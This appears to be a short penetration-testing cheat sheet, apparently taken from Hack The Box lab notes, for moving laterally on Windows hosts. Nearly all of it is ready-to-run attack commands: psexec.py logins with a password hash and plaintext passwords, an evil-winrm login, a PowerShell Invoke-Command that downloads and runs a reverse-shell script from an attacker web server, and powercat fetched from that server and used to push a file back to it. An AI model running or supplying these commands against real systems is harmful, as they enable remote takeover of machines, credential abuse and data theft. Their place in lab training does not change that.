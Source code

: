 ```
psexec.py administrator@10.10.10.175 -hashes 'aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e'

psexec.py test.local/john:password123@10.10.10.1
```

evil-winrm

```
evil-winrm -i 10.10.11.168 -u 'MiscSvc' -p 'ScrambledEggs9900'
```

Use powershell to connect to another user

1. generate rev shell and save it to a file shell.ps1 and start the web server
2. 

```
$pass = ConvertTo-SecureString "ScrambledEggs9900" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("scrm\miscsvc", $pass)
Invoke-Command -Computer dc1 -ScriptBlock { IEX(New-Object Net.WebClient).downloadString("http://10.10.16.2/shell.ps1") } -Credential $cred
```


Tansfer file using powercat

```
Invoke-WebRequest -Uri "http://10.10.16.2/powercat.ps1" -OutFile powercat.ps1


Import-Module .\powercat.ps1
powercat -c 10.10.16.2 -p 1234 -i .\ScrambleClient.exe
```